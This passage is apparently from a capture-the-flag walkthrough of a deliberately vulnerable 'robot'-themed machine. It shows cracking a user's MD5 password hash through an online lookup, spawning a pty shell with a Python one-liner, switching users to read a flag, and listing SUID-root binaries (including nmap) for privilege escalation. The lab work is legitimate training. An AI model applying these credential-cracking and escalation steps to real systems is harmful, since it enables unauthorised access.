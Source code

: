 We can now go into the home of the user robot and find the file 'key-2-of-3.txt'.  
But we can not open it because we are the user deamon and not the user robot.  
In the same folder we also find the file 'password.raw-md5'. The file contains:

````
robot:c3fcd3d76192e4007dfb496cca67e13b
````

We can use John the Ripper to crack the hash, or we can find the hash somewhere like here:  
https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b  

Whe password for the user 'robot' is 'abcdefghijklmnopqrstuvwxyz'.

we can now try to log in as that user and read the flag, but it doesn't work??

````
$ su robot
su: must be run from a terminal
````

No problem. Lets see if we have python and then spawn a shell:

````
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/sh")'
$
````

And now log in:

````
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$
````

Now we can read the file and **collect the flag 2 of 3**!!

For flag 3 it is likely that we have to be root and elevate our privileges.  
Lets try it with:

````
obot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
````

OK, let’s find what programs we have with the SETUID bit set owned by root:

````
find / -user root -perm -4000 -print 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
````